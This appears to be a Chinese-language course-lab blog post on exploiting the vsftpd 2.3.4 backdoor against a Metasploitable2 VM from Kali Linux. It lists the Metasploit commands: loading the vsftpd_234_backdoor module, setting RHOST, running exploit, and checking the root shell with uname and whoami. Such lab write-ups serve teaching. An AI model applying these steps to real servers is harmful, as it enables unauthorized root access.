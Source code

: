 ```yaml
---
layout: post
title: vsftpd漏洞利用
date: 2018-3-10
categories: 漏洞利用
tags: [漏洞利用]
description: 在特定版本的vsftpd服务器程序中，被人恶意植入代码，当用户名以”:)”为结尾，服务器就会在6200端口监听，并且能够执行任意代码。Vsftpd version2到2.3.4存在后门漏洞，攻击者可以通过该漏洞获取root权限。
---
```


### 0x01 概述
&emsp;&emsp;这是我的课程实验之一，在这里我把整个步骤和思路都复现一下。<br>vsftpd（very secure FTP daemon）是一个UNIX类操作系统上运行的服务器，它可以运行在诸如Linux、BSD、Solaris、HP-UNIX等系统上，是一个完全免费的开源FTP服务器软件，支持很多其他的FTP服务器所不支持的特性。比如：非常高的安全性需求、带宽限制、良好的可伸缩性、可创建虚拟用户、支持IPv6、速率高等。<br>

### 0x02 漏洞利用
&emsp;&emsp;我们的实验环境是PC1：metasploitable2，PC2：Kali Linux

* 打开靶机，查看IP地址 `172.16.1.153`:
![pic1](http://101.132.99.228/post_img/vsftpd1.png)

2. 打开渗透机，查看IP地址`172.16.1.152`:
![pic2](http://101.132.99.228/post_img/vsftpd2.png)

3. 打开渗透机上的`msfconsole`，搜索`vsftpd`相关漏洞，看到`vsftpd_234_backdoor`
![pic3](http://101.132.99.228/post_img/vsftpd3.png)

4. 输入`use exploit/unix/ftp/vsftp_234_bckdoor` 来使用该模块
![pic4](http://101.132.99.228/post_img/vsftpd4.png)

5. 设置靶机IP `set RHOST 172.16.1.153`执行`exploit`
![pic5](http://101.132.99.228/post_img/vsftpd5.png)

6. 获取shell权限成功 `uname -a`查看内核 `whoami`查看当前登陆用户
![pic6](http://101.132.99.228/post_img/vsftpd6.png)
